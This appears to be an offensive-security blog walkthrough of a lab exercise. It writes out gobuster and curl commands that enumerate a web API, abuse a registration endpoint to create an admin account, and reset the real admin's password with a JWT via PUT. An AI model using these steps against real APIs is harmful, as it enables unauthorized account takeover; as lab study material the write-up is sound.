 ```yaml
---
layout: post
title: API Priv Escalation
titledate: 08/25/23
tags: ["infosec","offsec","web", "api", "gobuster", "burpsuite", "http"]
---
```


<h4>Brute Force with Gobuster</h4>

We can use Gobuster to brute force APIs by creating a pattern file
    {GOBUSTER}/v1
    {GOBUSTER}/v2

    $ gobuster dir -u http://192.168.128.20:2002 -w /usr/share/wordlists/dirb/big.txt -p pattern

We can then use curl to inspect the APIs that get returned

    $ curl -i http://192.168.128.20:2002/users/v1

From our response we get many users so we can take a look at what apis they have access to

    $ gobuster dir -u http://192.168.128.20:2002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt

If we examine the password API

    $ curl -i http://192.168.128.20:2002/users/v1/admin/password

we get METHOD NOT ALLOWED indicating the API exists for the user but the GET method we are using is not supported
so we can try other HTTP methods to see what is supported

here we check if a certain api is supported for a user 

    $ curl -i http://192.168.128.20:2002/users/v1/login

    "USER NOT FOUND"

This response means the api exists but not for the user

We can use curl to pass an HTTP POST with json arguments for the admin user

    $ curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.128.20:2002/users/v1/login

In this example the login fails with password incorrect, but indicates we have correct json login parameters for the api

<h4>User PRIV Escalation</h4>

One idea is to try and create a new user account with admin priveleges. From here maybe we can gain access and alter the existing admin account access

    $ curl -d '{"password":"lab","username":"dlo","email":"pwn@dlo.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.128.20:2002/users/v1/register

We correctly form the HTTP request with the username and password json parameters and all required other parameters but pass the parameter admin to test if it allows this

If we get a successful account creation, we can try to login with our newly created admin account

    $ curl -d '{"password":"lab","username":"dlo"}' -H 'Content-Type: application/json'  http://192.168.128.20:5002/users/v1/login

The response here will give us a JWT authentication token

Now we can try to login as the admin account with our new admin auth token and update the admin password

    $ curl  \
  'http://192.168.128.20:2002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'

In this case we get method not allowed as a response so we can try an alternate HTTP method like PUT

    curl -X 'PUT' \
  'http://192.168.128.20:2002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'

If this works we should be able to login as the admin account via the api with our newly changed password

    $ curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.128.20:2002/users/v1/login

<h4>Burpsuite API Testing</h4>

Burpsuite can be very useful in enumerating apis and allowing for quick testing of requests and responses. It will keep track of all of them in the sitemap for quick access






